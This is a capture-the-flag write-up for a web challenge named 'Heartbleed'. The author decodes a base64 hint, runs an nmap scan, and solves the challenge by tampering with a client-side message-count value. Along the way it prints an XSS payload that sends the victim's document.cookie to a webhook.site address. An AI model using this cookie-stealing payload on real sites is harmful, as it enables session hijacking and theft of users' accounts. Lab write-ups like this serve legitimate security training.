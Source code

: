 ```yaml
---
title: Heartbleed
description: web
---
```


# Heartbleed

Note: You may run these commands on one or two VMs.

if we open `<target>`.js, we get the following:

function callme() {
  console.log("UmVtZW1iZXIsIGEgc2VydmVyIHNob3VsZCBuZXZlciBibGluZGx5IHRydXN0IGNsaWVudHMnIGlucHV0IC0gZXZlbiBpZiB0aGUgaW5wdXQgaXMgZ2VuZXJhdGVkIGJ5IGEgc2NyaXB0Lg==");
}

document.getElementById('message').onkeyup = function () {
  message_count = this.value.length;
  document.getElementById("message_count").value = message_count;
  document.getElementById('count').innerHTML = message_count;
};

from base64 we get:
Remember, a server should never blindly trust clients' input - even if the input is generated by a script.

this neans we should find a backend and try to send it inputs.

Also we get a xss to show up using 

```
<script>alert(1)</script>
```

```
<script>
  var img = new Image();
  img.src = 'https://webhook.site/<url>?cookie=' + document.cookie;
</script>
```

and we get a get request.

However no luck from this as it is not a flag.

 nmap -sV -sC `<target>`.com

Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
443/tcp  open  ssl/http Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
| ssl-cert: Subject: commonName=`<target>`.com
| Subject Alternative Name: DNS:`<target>`.com, DNS:*.`<target>`.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
8080/tcp open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
8443/tcp open  ssl/http Cloudflare http proxy
| ssl-cert: Subject: commonName=`<target>`.com
| Subject Alternative Name: DNS:`<target>`.com, DNS:*.`<target>`.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
|_http-server-header: cloudflare
|_http-title: Site doesn't have a title (text/plain; charset=UTF-8).

And it is behind a cloudflare, which I will not try to test.

None of these worked, but then I noticed there was a message count. I tried to change this value to something else and see what would happen. 

![alt text](/images/heartbleed/image-1.png)
![alt text](/images/heartbleed/image-2.png)

I found the flag by changing the value of this message count. 


